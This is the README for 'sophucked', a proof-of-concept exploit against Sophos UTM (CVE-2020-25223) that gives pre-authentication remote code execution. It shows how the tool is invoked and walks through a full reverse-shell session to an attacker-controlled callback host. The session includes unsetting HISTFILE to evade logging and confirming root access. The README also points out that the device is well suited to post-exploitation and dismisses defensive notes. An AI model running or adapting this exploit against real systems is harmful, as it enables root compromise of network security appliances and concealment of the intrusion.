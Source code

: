 # sophucked
CVE-2020-25223 RCE PoC, gets reverse shell. Pre-auth. Implemented this quickly as it was needed.


## Example Use:
```
# python sophucked.py https://x.x.x.x:4443 x.x.x.x 80
(+) starting handler on port 80
(+) Sending callback to x.x.x.x:80
(+) connection from x.x.x.x
(+) pop thy shell!
bash: no job control in this shell
utm:/var/confd # unset HISTFILE
unset HISTFILE
utm:/var/confd # id
id
uid=0(root) gid=0(root) groups=0(root)
utm:/var/confd # exit
exit
exit
*** Connection closed by remote host ***
# 
```

## Scanning/Detection
Not implemented in this, just use the [nuclei template](https://github.com/projectdiscovery/nuclei-templates/blob/master/cves/2020/CVE-2020-25223.yaml).

## Post-exploitation notes
These have a python interpreter, and actually a very fully featured Linux environment available. Amazing potential for post-exploitation. 

## Blue team notes
I'm sure someone who cares can fill this in. Bitter (a subset of "blue team twitter") will probably do so shortly. 

Third party reference (bug details): https://www.atredis.com/blog/2021/8/18/sophos-utm-cve-2020-25223

Direct complaints to Sophos, who somehow thought passing user input to `open()` in Perl was a good idea in the 21st century. 
